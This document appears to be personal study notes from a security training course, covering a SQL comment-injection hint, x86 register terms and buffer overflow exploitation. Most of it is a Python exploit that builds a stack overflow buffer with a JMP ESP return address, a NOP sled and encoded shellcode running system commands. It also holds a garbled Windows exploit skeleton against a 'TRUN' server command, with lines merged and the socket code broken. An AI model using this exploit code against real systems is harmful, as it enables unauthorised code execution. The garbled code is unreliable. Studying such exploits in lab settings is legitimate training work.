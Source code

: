 ## Nesting Statements
    # ignore the rest or -- tells to ignore stuff, comment out some of the sql error

## Day 4 - Reverse Engineering
     
### X86_64 Assembly - Common Terms
    Heap, Stack, Gen. Register, Ctrl. Register, Flags Register
    
### Reverse Engineering Workflow (Software)
```Shell
#!/usr/bin/python2.7

# FILL UP THE BUFFER 
buf = "A" * 62

#EIP Register to JMP ESP

buf += "\x59\x3b\xde\xf7"

#The mem addresses for JMP ESP

'''
0xf7de3b59 "\x59\x3b\xde\xf7"
0xf7f588ab
0xf7f645fb
0xf7f6460f
'''
## Assits with encoding NOP SLED
buf += "\x90" * 10

# Shell Code / palyoad below
# set CMD whoami && ifconfig


buf += b"\xdb\xc3\xd9\x74\x24\xf4\x58\xbb\xe6\xef\x4a\x63"
buf += b"\x29\xc9\xb1\x0e\x31\x58\x19\x03\x58\x19\x83\xe8"
buf += b"\xfc\x04\x1a\x20\x68\x90\x7c\xe7\x08\x48\x52\x6b"
buf += b"\x5c\x6f\xc4\x44\x2d\x07\x15\xf3\xfe\xb5\x7c\x6d"
buf += b"\x88\xda\x2d\x99\x99\x1c\xd2\x59\xe9\x74\xbd\x38"
buf += b"\x78\xed\x61\x9d\xa4\xcd\x08\x87\xcb\x62\xa5\x21"
buf += b"\x65\x1b\x39\xf9\x26\x6a\xd8\xc8\x49"

print(buf)
```

### Windows
```SHell
vim SecureServerBuff.py#!/usr/bin/python2.7
import socket
'''
addr
addr
'''buf = "TRUN/.:/"buf += "A" * 3000
#buf += "wirechars"
#buf += "\xad\xdr\xsw\xap" JMP ESP
#buf += "\x90" * 15
#buf += msfvenom commands = socket.socket (socket.AF_INET, socket.SOCK_STREAM) #Creates IPv4 sockets.connect(("IP",port)) #IP and port connection
print s.recv(1024) #Recieve response
```